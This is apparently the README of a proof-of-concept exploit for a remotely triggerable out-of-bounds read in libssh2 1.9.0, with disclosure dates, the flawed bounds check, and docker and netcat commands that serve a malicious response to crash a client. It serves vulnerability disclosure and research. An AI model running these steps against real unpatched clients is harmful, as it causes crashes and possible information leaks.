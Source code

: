 # Out-of-bounds read in libssh2

[libssh2](https://www.libssh2.org/) version 1.9.0 contains a remotely triggerable out-of-bounds read, leading to denial of service or potentially to information disclosure. I reported this bug to libssh2-security@haxx.se on 2019-07-01. At the time of writing (2019-10-11), it has been [fixed on the master branch](https://github.com/libssh2/libssh2/pull/402/commits/1c6fa92b77e34d089493fe6d3e2c6c8775858b94), but a new official version containing a fix has not yet been released.

This directory contains a proof of concept exploit for the vulnerability. It uses [docker](https://www.docker.com/) to simulate two computers. The first is a server, with a simple [netcat](https://linux.die.net/man/1/nc) command listening on port 22. The second is a client, running `libssh2`. When the client attempts to connect to server, the server sends back a malicious response which triggers a segmentation fault in the client.

The source location of the vulnerability is [packet.c:480](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L480):

```
if(message_len < datalen-13) {
```

The value of `datalen` is untrusted because it came from the remote computer. If `datalen == 11`, for example, then the subtraction will overflow and the bounds-check of `message_len` is ineffective, leading to an out-of-bounds read on [line 485](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L485).

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.18.0.0/16 libssh2-demo-network
```

## Server setup

Build the docker image:

```
docker build server -t libssh2-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network libssh2-demo-network --ip=172.18.0.10 -i -t libssh2-server
```

Start the malicious "ssh server":

```
sudo nc -l -p 22 < poc.bin  # password is x
```

## Client setup

Build the docker image:

```
docker build client -t libssh2-client --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 -i -t libssh2-client
```

If you want to be able to debug libssh2 with gdb, then you need to start the container with a few extra arguments:

```
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t libssh2-client
```

In the container, attempt to connect to the server:

```
cd ~/libssh2/example
./ssh2 172.18.0.10
```

This command crashes with a segmentation fault.

If you would like to debug libssh2 with [gdb](https://www.gnu.org/software/gdb/), then start it like this:

```
cd ~/libssh2/example/.libs
LD_LIBRARY_PATH="/home/victim/libssh2/src/.libs:$LD_LIBRARY_PATH" gdb --args ./ssh2 172.18.0.10
```
